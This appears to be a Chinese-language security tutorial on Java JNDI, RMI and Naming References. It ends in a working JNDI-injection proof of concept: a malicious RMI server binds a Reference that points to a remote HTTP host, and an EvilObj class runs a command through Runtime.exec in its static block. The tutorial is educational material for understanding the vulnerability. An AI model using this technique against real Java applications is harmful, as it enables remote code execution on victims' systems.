 ## JNDI基础

### JNDI概念

RMI就是Remote Method Invocation远程方法调用，Java Remote Method Protocol是一个Java中实现远程方法调用使用的协议

JNDI就是Java Naming and Directory Interface，本质上是一组API接口，可以操作目录服务和命名服务的接口

![image-20220419164039922](README.assets/image-20220419164039922.png)

#### 命名服务

命名服务是一种键值对绑定，类似RMI就是典型的命名服务，通过特定的键名锁定检索键值

#### 目录服务

目录服务是命名服务的拓展服务，通过对象属性来匹配对象，比如通过年级——专业——姓名这种类似目录的形式匹配某个人的属性，与命名服务本质一样，只不过命名服务是单键值的目录服务

![image-20220419165147053](README.assets/image-20220419165147053.png)

JNDI是对访问目录服务的逻辑再封装，其中LDAP用目录式进行匹配，JNDI传递键foo，RMI服务端反馈一个对象，LDAP传过去多个键值对

### demo

JNDI提供了绑定了查找的方法，分别是bind绑定和lookup查找

首先实现接口，并创建一个类实现这个接口

```java
import java.rmi.Remote;
import java.rmi.RemoteException;

public interface IHello extends Remote {
    public String sayHello(String name) throws RemoteException;
}

import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

public class IHelloImpl extends UnicastRemoteObject implements IHello {
    protected IHelloImpl() throws RemoteException{
        super();
    }
    @Override
    public String sayHello(String name) throws RemoteException{
        return "Hello, " + name;
    }
}
```

然后简单创建远程对象，实现绑定和调用

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.Properties;

public class Demo {
    public static void main(String[] args) throws Exception{
        // 配置JNDI的url和端口
        Properties env = new Properties();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://localhost:1099");

        // 创建初始环境
        Context ctx = new InitialContext(env);

        // 创建rmi映射表
        Registry registry = LocateRegistry.createRegistry(1099);

        // 创建对象
        IHello hello = new IHelloImpl();

        // 绑定对象到注册表
        registry.bind("hello", hello);

        // jndi 获取远程对象
        IHello rhello = (IHello) ctx.lookup("rmi://localhost:1099/hello");

        // 调用远程对象方法
        System.out.println(rhello.sayHello("bcyx"));
    }
}
```

简单demo将服务端和客户端写到一起了，但是整体流程相同

其中Context.PROVIDER_URL指定了去哪里加载本地没有的类

### JNDI动态协议转换

当我们调用lookup方法时，如果lookup方法和上面的demo中一样是一个地址，则客户端回去对应的url去加载远程对象，而不去Context.PROVIDER_URL设定的地址去加载对象，因此当可控lookup参数的时候，可以提供恶意url地址控制受害者加载指定的类(但是不能单凭如此完成攻击，受害者本地主机不含有class文件，调用不了方法)

跟踪一下lookup函数，后面会调用getTargetContext函数

而getTargetContext执行在前面，因此如果lookup中存在地址，则会后覆盖，即优先考虑lookup的参数

![image-20220419193356416](README.assets/image-20220419193356416.png)

### JNDI Naming Reference

Reference类表示对存在于命名/目录系统意外的对象的引用，如果远程获取RMI服务器上的对象为Reference类或者其子类，则客户端获取远程对象时，可以从其他服务器上加载class来实现实例化

Java为了实现将Object对象存储在Naming或Directory服务下，提供了Naming Reference功能，对象通过绑定Reference类存储在RMI、LDAP等命名和目录系统下

使用Reference时，直接将对象传入构造方法中，被调用的时被触发，几个关键属性：

1. className：远程加载时所使用的类名
2. classFactory：加载的class中需要实例化类的名称
3. classFactoryLocation：远程加载类的地址，提供classes的地址可以为http/file/ftp

如果希望把一个对象绑定到rmi注册表上，则需要继承extendsUnicastRemoteObject，但是Reference并没有继承，需要封装一下，使用ReferenceWrapper包裹一下Reference实例对象，然后绑定到rmi注册表

```java
//param: 远程加载所使用的类名 要加载的类的完整类名 远程class文件存放地址
Reference refObj = new Reference("refClassName", "insClassName", "xxxx:6666/");
ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
registy.bind("refObj", refObjWrapper);
```

当客户端通过loopup("refObj")获取远程对象的时候，获取的是Reference的存根，本地如果不存在refClassName，则取指定url xxxx:6666/动态加载，并且调用insClassName中的无参构造函数（可以在无参构造函数中写恶意代码），也可以使用static代码块，static代码块的代码在class文件被加载过后立即执行一次

### JNDI注入

JNDI注入的本质就是将恶意的Reference类绑定到RMI注册表上，并指向远程恶意的class文件，当用户的客户端lookup()或Reference类的构造方法可控时，会导致RMI绑定恶意类，从而加载恶意class，造成远程代码执行。

利用条件：

1. 客户端lookup方法可控
2. 服务端使用Reference时，classFactoryLocation可控

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class Client {
    public static void main(String[] args) throws NamingException {
        Context context = new InitialContext();
        context.lookup("rmi://localhost:1099/evil");
    }
}
```

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(1099); // 绑定注册表端口
        String url = "http://192.168.2.139:6666/"; // 加载恶意类的远程地址
        System.out.println("create registry in 1099");
        Reference reference = new Reference("EvilObj", "EvilObj", url); // 调用Reference类并控制url为远程地址
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference); // 封装
        registry.bind("evil", referenceWrapper);
    }
}
```

```java
import javax.lang.model.element.Name;
import javax.naming.Context;
import java.io.BufferedInputStream;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.util.HashMap;

public class EvilObj {
    public static void exec(String cmd) throws IOException{
        String s = "";
        BufferedInputStream bufferedInputStream = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());
        BufferedReader inBr =new BufferedReader(new InputStreamReader(bufferedInputStream));
        String lineStr;
        while ((lineStr = inBr.readLine())!=null){
            s += lineStr + '\n';
        }
        inBr.close();
        inBr.close();
    }
    public Object getObjectInstance(Object obj, Name name, Context context, HashMap<?, ?> environment) throws Exception{
        return null;
    }
    // 利用static执行恶意代码
    static {
        try {
            exec("calc.exe");
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

首先在服务器端运行python HTTPServer，设置对应端口，并在同目录下放置对应的class，然后分别启动server和client，client报错并弹出cmd

![image-20220419201557482](README.assets/image-20220419201557482.png)

![image-20220419201511034](README.assets/image-20220419201511034.png)
